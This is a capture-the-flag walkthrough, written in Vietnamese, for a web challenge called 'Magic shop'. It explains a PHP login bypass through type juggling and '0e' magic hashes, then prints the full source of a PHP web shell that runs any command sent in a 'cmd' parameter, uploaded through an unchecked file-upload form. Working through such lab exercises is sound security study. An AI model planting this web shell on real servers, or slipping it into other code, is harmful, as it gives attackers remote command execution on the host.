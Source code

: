 **Magic shop**

*Mở đầu là 1 form login, mở source:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/e193728d-cd4d-4f79-a928-534b98ea9903)

-Trong đoạn code trên trang web sẽ lấy username và password bị hash bằng sha256 và kiểm tra điều kiện pasword phải bằng 0 thì mới login được. Mặc dù password đã bị hash nhưng ta vẫn có thể login được. Bởi vì trang web sử dụng sử dụng `==` để so sánh 1 chuỗi với 1 interger nên nó có thể bị 1 lỗ hổng là Type Juggling  
-Khi so sánh một string với một số interger trong PHP, nếu như string bắt đầu bằng một ký tự không phải là số, nó sẽ mặc định là int(0) hoặc các strings bắt đầu với các ký tự là 0e, khi đó các chuỗi được chuyển thành các lũy thừa tương đương đương với int(0)   
-Bên cạnh đó ta có 1 lỗ hổng khác là magic hashes nó xuất hiện do một lỗi trong cách PHP xử lý kiểu dữ liệu khi so sánh chuỗi băm với số nguyên. Nếu một chuỗi băm bắt đầu bằng “0e” . Thế nên ta có thể dễ dàng tìm thấy payload trên mạng    
**nguồn payload** https://github.com/spaze/hashes  
=> qua được phần login

*Phần sau là 1 chức năng upload file và trong source không có chức năng bảo mật gì nên ta chỉ cần upload file webshell lên và và thực hiện tìm flag thôi  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/591a9e8a-9cd5-4ea1-8d7f-50ef6e20cbf2)

file upload: webshell.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/28f77c09-88d6-4656-b5f5-abfc64c63f1f)

